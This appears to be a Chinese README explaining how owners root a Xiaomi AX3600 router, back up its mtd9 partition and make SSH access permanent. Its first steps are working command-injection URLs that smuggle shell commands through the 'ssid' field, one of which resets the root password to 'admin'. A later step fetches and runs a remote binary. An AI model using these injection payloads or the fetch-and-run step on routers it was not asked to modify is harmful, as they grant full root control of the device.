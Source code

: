 ## AX3600_SSH步骤：
> 需降级到1.0.17版本

1.替换&lt;STOK&gt; 打开  
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```

2.替换&lt;STOK&gt; 打开  
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

3.执行命令备份mtd9分区  
```
mkdir /tmp/syslogbackup/
```
```
dd if=/dev/mtd9 of=/tmp/syslogbackup/mtd9
```
浏览器请求该地址下载备份：
```
http://192.168.31.1/backup/log/mtd9
```
## AX3600_固化步骤：
```
sed -i 's/18\.06-SNAPSHOT/18.06.0/g' /etc/opkg/distfeeds.conf
```
```
opkg install --force-overwrite wget unzip -d ram && /tmp/usr/bin/wget https://fastly.jsdelivr.net/gh/mphin/Mi_Route_Tool@main/AX3600/mitool.zip -O /data/mitool.zip && cd /data/ && /tmp/usr/bin/unzip /data/mitool.zip && /data/mitool_arm64 unlock
```
重启后执行  
```
/data/mitool_arm64 hack
```
会自动固化ssh和计算ssh默认密码并再次重启，复制password:后面的密码保存备用即可  
完毕。  
## AX3600_升级丢失ssh步骤：
```
telnet 192.168.31.1
```
```
sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
```
```
/etc/init.d/dropbear start
```
## AX3600_安装sftp：
```
opkg update
opkg install openssh-sftp-server
```
